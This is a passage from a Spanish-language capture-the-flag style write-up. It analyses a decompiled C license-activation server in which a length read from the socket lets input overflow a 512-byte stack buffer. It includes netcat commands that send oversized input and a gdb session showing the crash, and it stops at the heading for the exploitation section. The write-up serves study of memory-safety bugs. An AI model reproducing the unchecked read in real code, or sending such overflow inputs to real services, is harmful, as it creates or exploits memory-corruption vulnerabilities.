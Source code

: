```c
		// un descriptro de fichero que almacenará el input que se le pasa por la conexión (el nc localhost 666)
		hijo = fork();
    	if (hijo == 0) break;
    	close(sockfd);}
  			close(serverfd);
  		activate_license(sockfd);
  		exit(0);}
```
No hay nada demasaido interesante, pero tenemos la funcion "activate_license" que es la que entra en juego una vez hemos dado el puerto
```c
void activate_license(int sockfd){
  int sqlite;
  ssize_t sVar2;
  sqlite3_stmt *stmt; sqlite3 *db;
  uint32_t msglen; char buffer [512];
  
  // Mete en "msglen" 4 bytes del input que recibe de la conexión 
  tamaño = read(sockfd,&msglen,4); msglen = ntohl(msglen);
  printf("[+] reading %d bytes\n",(ulong)msglen);  
  // 4 bytes para el tamaño -> python3 -c "print('A'*4)" | nc localhost 666 -> reading 1094795585 bytes >>> 0x41414141 = 1094795585
 
  // Lo segundo que le pide al usaurio es la licencia. Mete en el buffer de 512 bytes hasta cubrir el tamaño especificado en mslen
  licencia = read(sockfd,buffer,(ulong)msglen);  

  // Lo almacena en una base de datos sqlite
  sqlite = sqlite3_open("license.sqlite",&db); 
  sqlite = sqlite3_exec(db, "CREATE TABLE IF NOT EXISTS license (id INTEGER PRIMARY KEY AUTOINCREMENT, license_key TEXT)" ,0,0,0);
  sqlite = sqlite3_prepare_v2(db,"INSERT INTO license (license_key) VALUES (?)",0xffffffff,&stmt,0);
  sqlite = sqlite3_step(stmt); port = sqlite3_reset(stmt); port = sqlite3_finalize(stmt);
  printf("[+] activated license: %s\n",buffer); return;}
```
Lo critico está en la funcion read ```licencia = read(sockfd,buffer,(ulong)msglen); ``` porque ¿Y si lo que le metemos a buffer por sockfd es
mas grande que lo especificado en mslen?
```console
└─$ printf "\x00\x00\x00\x01AAAA" | nc localhost 6668
└─$ ./activate_licens 666          
[+] reading 1 bytes
[+] activated license: A
```
Si le mandamos esto ```printf "\x00\x00\x02\x00$(python3 -c 'print("A" * 600)')" | nc localhost 6668``` (mete 600 A en 512 de tamaño) 
al final de las AAA pone bytes extraños,  puede que el proceso se ha corromprido de cierta manera. Pero por que no da SEGFAULT? porque es un proceso hijo
Si lo corremos con gdb en otro puerto (y seguimos al hijo):
```console
└─$ gdb ./activate_licens
gef➤  set follow-fork-mode child
gef➤  r 6667
# printf "\x00\x00\x03\x00$(python3 -c 'print("A" * 1000)')" | nc localhost 6668
# >>> SEGFAULT (mete 1000 A en 768 bytes)
```
-------------------
# Part 5: Explotación del binario
